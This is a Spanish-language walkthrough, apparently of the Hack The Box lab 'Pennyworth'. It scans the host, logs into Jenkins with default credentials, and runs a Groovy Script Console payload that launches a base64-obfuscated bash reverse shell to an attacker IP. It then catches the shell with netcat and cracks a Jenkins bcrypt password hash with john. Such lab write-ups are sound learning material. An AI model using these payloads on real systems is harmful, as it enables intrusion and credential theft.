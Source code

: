# Pennyworth

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.198.27

PING 10.129.198.27 (10.129.198.27) 56(84) bytes of data.
64 bytes from 10.129.198.27: icmp_seq=1 ttl=63 time=164 ms

--- 10.129.198.27 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 164.308/164.308/164.308/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vvv 10.129.198.27 -oG openPorts

PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 8080 -sCV 10.129.198.27 -oN targeted

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

| Puerto | Servicio | Versión                |
| ------ | -------- | ---------------------- |
| 8080   | http     | Jetty 9.4.39.v20210325 |

🗹 Probar las credenciales `root` para el campo `Username` y `password` para el campo `Password`.

🗹 Dentro del dashboard, en la opción **Manage Jenkins**, **Script Console** crear el siguiente script:

```shell
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS44MS8xMjM0IDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

🗹 Crear por consola la reverse shell incluyendo la IP atacante y el puerto que va a estar en escucha para recibir la reverse shell e incluirla dentro del script:

```shell
echo "bash -c 'bash -i >& /dev/tcp/10.10.15.81/1234 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS44MS8xMjM0IDA+JjEnCg==
```

🗹 Ponerse en escucha en la máquina atacante `nc -lnvp 1234`.

🗹 Una vez establecida la conexión con el servidor configurar la terminal y personalizar el entorno de la terminal:

```shell
script /dev/null -c bash

ctrl + z

stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 183
```
## Flag

🗹 La flag se encuentra en el directorio `/root/flag.txt`.

## Cositas aprendidas

🗹 En el servidor, en el directorio `/var/lib/jenkins/users/root_5662950835086884594` dentro del archivo `config.xml` están configuradas las credenciales:

```shell
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>root</id>
  <fullName>Administrator</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.3.15">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.82">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.4">
      <providerId>default</providerId>
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <jenkins.security.seed.UserSeedProperty>
      <seed>6f5f3cc26dcb738e</seed>
    </jenkins.security.seed.UserSeedProperty>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.model.TimeZoneProperty/>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$bPGCZ8xst4W7TIH9VbC.9.djeZCRSzadagQ6y6tZvmdulxzxkQzkq</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.33">
      <emailAddress>admin@pennyworth.htb</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1615542792511</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

Usando la utilidad `john` se puede ver el contenido del hash de la contraseña:

```shell
echo '$2a$10$bPGCZ8xst4W7TIH9VbC.9.djeZCRSzadagQ6y6tZvmdulxzxkQzkq' > hash

❯ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (?)     
1g 0:00:00:00 DONE (2024-03-16 12:57) 1.851g/s 66.66p/s 66.66c/s 66.66C/s 123456..liverpool
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
